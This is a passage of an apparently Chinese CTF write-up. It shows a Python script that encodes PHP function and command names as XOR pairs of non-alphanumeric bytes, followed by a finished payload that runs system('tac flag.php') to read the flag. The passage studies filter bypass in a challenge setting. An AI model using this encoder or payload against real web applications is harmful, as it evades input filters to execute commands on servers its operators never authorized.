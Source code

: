 得到xor_rce文件后，运行配套python脚本

```py
# -*- coding: utf-8 -*-

# author yu22x

import requests
import urllib
from sys import *
import os


def action(arg):
    s1 = ""
    s2 = ""
    for i in arg:
        f = open("xor_rce.txt", "r")
        while True:
            t = f.readline()
            if t == "":
                break
            if t[0] == i:
                # print(i)
                s1 += t[2:5]
                s2 += t[6:9]
                break
        f.close()
    output = "(\"" + s1 + "\"^\"" + s2 + "\")"
    return (output)


while True:
    param = action(input("\n[+] your function：")) + action(input("[+] your command：")) + ";"
    print(param)

```

![image-20241201202702195](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412012027248.png)

输入方法和命令，我们进行传参，成功执行命令

![image-20241201202722292](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412012027341.png)

```
system(tac flag.php)

("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%08%01%03%00%06%0c%01%07%00%0b%08%0b"^"%7c%60%60%20%60%60%60%60%2e%7b%60%7b");
```

传入得到flag


